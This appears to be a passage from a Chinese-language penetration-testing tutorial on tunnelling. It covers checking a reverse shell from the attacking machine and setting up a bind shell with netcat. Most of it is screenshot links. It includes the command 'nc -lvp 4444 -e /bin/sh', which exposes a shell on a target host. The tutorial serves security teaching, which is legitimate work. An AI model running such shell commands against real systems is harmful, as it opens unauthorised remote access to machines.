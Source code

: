 

再返回攻击机查看反弹回来的shell, 并输入`ifconfig`命令进行测试

![image-20221106162013459](隧道应用/image-20221106162013459.png)		



### 正向Shell	

![image-20221106162329078](隧道应用/image-20221106162329078.png)	



先在目标主机创建监听, 并把一个bash shell绑定到4444端口

```
nc -lvp 4444 -e /bin/sh
```

![image-20221106162559754](隧道应用/image-20221106162559754.png)		

